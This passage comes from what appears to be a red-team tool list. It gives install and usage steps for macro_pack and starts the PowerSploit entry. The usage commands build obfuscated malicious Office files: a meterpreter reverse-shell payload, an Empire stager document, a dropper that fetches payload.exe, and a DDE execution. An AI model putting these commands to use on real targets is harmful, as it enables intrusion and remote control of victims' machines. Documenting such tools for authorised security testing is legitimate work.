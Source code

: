 1. Get the latest binary from [https://github.com/sevagas/macro_pack/releases/](https://github.com/sevagas/macro_pack/releases/)
2. Download binary on PC with genuine Microsoft Office installed.
3. Open console, CD to binary dir and call the binary

**Install: (Git)** 

```bash
git clone https://github.com/sevagas/macro_pack.git
cd macro_pack
pip3 install -r requirements.txt
```

**Usage:** 

```bash
# Help Page
python3 macro_pack.py  --help

# List all supported file formats
macro_pack.exe --listformats

# Obfuscate the vba file generated by msfvenom and puts result in a new VBA file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# Obfuscate Empire stager VBA file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```

![image](https://user-images.githubusercontent.com/100603074/209868800-7fbcfdec-8ae8-4693-8438-feebc2309667.png)

### [🔙](#tool-list)[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

A collection of PowerShell scripts and modules that can be used to achieve a variety of red teaming objectives.

Some of the features of PowerSploit:

- Dump password hashes and extract clear-text passwords from memory
- Escalate privileges and bypass security controls
- Execute arbitrary PowerShell code and bypass execution restrictions
- Perform network reconnaissance and discovery
- Generate payloads and execute exploits

**Install:** *1. Save to PowerShell modules folder*

First you will need to download the [PowerSploit Folder](https://github.com/PowerShellMafia/PowerSploit) and save it to your PowerShell modules folder.
